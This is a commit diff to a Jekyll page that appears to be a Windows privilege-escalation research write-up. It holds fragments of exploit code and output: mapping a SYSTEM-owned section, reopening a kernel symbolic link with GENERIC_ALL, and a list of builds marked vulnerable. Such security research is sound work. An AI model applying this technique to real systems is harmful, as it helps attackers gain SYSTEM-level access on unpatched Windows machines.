

Before and after one commit to RFC6592/rfc6592.github.io, a Jekyll site: the page website/GreenPlasma-Research.html, which Jekyll copies as it is, in a window 1280 px wide and 900 px high, scrolled down 4266 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Update GreenPlasma-Research.html

```diff
--- a/website/GreenPlasma-Research.html
+++ b/website/GreenPlasma-Research.html
@@ -413,8 +413,8 @@
   <p>With the path fixed, the code opens the SYSTEM-owned section and gets a valid handle. But mapping it with <code>FILE_MAP_WRITE</code> fails. <code>GetLastError()</code> returns 5 (<code>ERROR_ACCESS_DENIED</code>, NT status <code>0xC0000022</code>). The code falls back to read-only and dumps the first 256 bytes:</p>
 
   <div class="code-block">
-    <div class="code-label">stage 6 output on patched builds</div>
-    <pre>[Stage 6] Mapping SYSTEM section into current process...
+    <div class="code-label">Output on patched builds</div>
+    <pre>Mapping SYSTEM section into current process...
   <span style="color:#f87171">[FAIL] NtMapViewOfSection returned 0xC0000022</span>
   <span style="color:#4ade80">[OK]   Section mapped READ-ONLY at 0x0000028FB2E50000 (size: 4096 bytes)</span>
 
@@ -554,12 +554,13 @@
 <span style="color:#52525b">// Rather than aborting, open the existing object and reuse its handle.</span>
 
 if (stat == 0xC0000035) {
+    // Le symlink existe déjà - on essaie de l'ouvrir
     printf("[!] Symlink already exists (0xC0000035)\n");
-    printf("[*] Previous run leaked handle - symlink kept alive by kernel ref count\n");
     printf("[*] Trying NtOpenSymbolicLinkObject on existing entry...\n");
 
+    // Re-initialiser pour l'ouverture
     InitializeObjectAttributes(&amp;objattr, &amp;linksrc, OBJ_CASE_INSENSITIVE, NULL, NULL);
-
+    // Ouvrir le symlink existant
     HANDLE hExistingLink = NULL;
     NTSTATUS openStat = NtOpenSymbolicLinkObject(
         &amp;hExistingLink, GENERIC_ALL, &amp;objattr);
@@ -809,7 +810,7 @@
     · 26200.8457 (25H2): same<br/>
     · 26200.6584 (25H2 older): same, despite being older than 8037 (not yet explained)<br/>
     · 19045.2965 (Win10 22H2): vulnerable code path absent entirely<br/>
-    · 26200.8037 (25H2): <span style="color:#4ade80">vulnerable, full read/write access confirmed by stevevanasche</span>
+    · 26200.8037 (25H2): <span style="color:#4ade80">vulnerable, full read/write access confirmed by stevevanasche ???</span>
   </div>
 
   <!-- ===================================================== -->
```
